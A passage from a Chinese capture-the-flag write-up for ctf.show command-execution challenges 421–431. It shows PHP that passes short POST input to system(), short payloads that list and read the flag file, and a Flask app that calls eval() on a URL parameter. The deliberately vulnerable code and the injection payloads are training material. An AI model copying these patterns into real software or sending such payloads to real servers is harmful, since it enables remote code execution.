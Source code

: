 ```python
    r = requests.post('http://51d55836-836d-42df-80c1-1888d41ceb5a.challenge.ctf.show/', data=data)
    print(i)
    time.sleep(1)
```

## 421-长度限制6

```php
$code = $_POST['code'];
if(strlen($code) < 6){
    system($code);
}
```

flag在当前目录

```
code=ls
code=nl f*
```

## 422-长度限制5

```php
$code = $_POST['code'];
if(strlen($code) < 5){
    system($code);
}
```

```
code=nl *
```





## 423~431-python命令执行

python不是很熟，学习了一波yu师傅的wp：[CTFSHOW其他篇 羽的博客-CSDN博客](https://blog.csdn.net/miuzzx/article/details/112692697)

> 听说是yu师傅用特殊方式得到的最原始源码：
>
> ```python
> from flask import Flask
> from flask import request
> import os
> 
> app = Flask(__name__)
> @app.route('/')
> def app_index():
>     code = request.args.get('code')
>     if code:
>     	return eval(code)
>     return 'where is flag?'
> 
> if __name__=="__main__":
>     app.run(host='0.0.0.0',port=80)
> ```
